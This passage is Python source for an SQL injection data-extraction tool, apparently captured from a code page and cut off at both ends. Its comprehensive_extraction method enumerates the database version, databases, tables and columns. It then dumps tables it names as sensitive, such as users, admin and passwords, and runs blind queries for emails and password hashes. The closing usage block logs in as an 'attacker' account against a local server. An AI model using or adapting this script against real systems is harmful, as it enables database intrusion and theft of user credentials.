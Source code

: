 ```python
    
    def comprehensive_extraction(self):
        """Perform comprehensive data extraction"""
        print("=== Comprehensive SQL Injection Data Extraction ===")
        
        extraction_results = {}
        
        # Step 1: Database version
        version = self.extract_database_version()
        extraction_results['version'] = version
        
        # Step 2: Database names
        databases = self.extract_database_names()
        extraction_results['databases'] = databases
        
        # Step 3: Table names
        tables = self.extract_table_names()
        extraction_results['tables'] = tables
        
        # Step 4: Extract sensitive tables
        sensitive_tables = ['users', 'tasks', 'comments', 'admin', 'passwords']
        
        for table in sensitive_tables:
            print(f"\n--- Processing table: {table} ---")
            
            # Get column information
            columns = self.extract_column_names(table)
            extraction_results[f'{table}_columns'] = columns
            
            # Extract data if columns found
            if columns:
                # Parse column names from response (application-specific)
                column_names = ['id', 'email', 'password_hash', 'created_at']  # Example
                data = self.extract_table_data(table, column_names)
                extraction_results[f'{table}_data'] = data
        
        # Step 5: Blind extraction for specific sensitive data
        sensitive_queries = [
            "SELECT COUNT(*) FROM users",
            "SELECT email FROM users WHERE id=1",
            "SELECT password_hash FROM users WHERE id=1"
        ]
        
        for query in sensitive_queries:
            result = self.blind_data_extraction(query)
            extraction_results[f'blind_{query.replace(" ", "_")}'] = result
        
        return extraction_results

# Usage example
if __name__ == "__main__":
    BASE_URL = "http://localhost:3000"
    
    # Get authentication token
    def get_auth_token(base_url, email, password):
        login_data = {"email": email, "password": password}
        response = requests.post(f"{base_url}/api/auth/login", json=login_data)
        return response.json().get('token') if response.status_code == 200 else None
    
    token = get_auth_token(BASE_URL, "attacker@test.com", "password123")
    
    if token:
        # Initialize extractor for vulnerable endpoint
```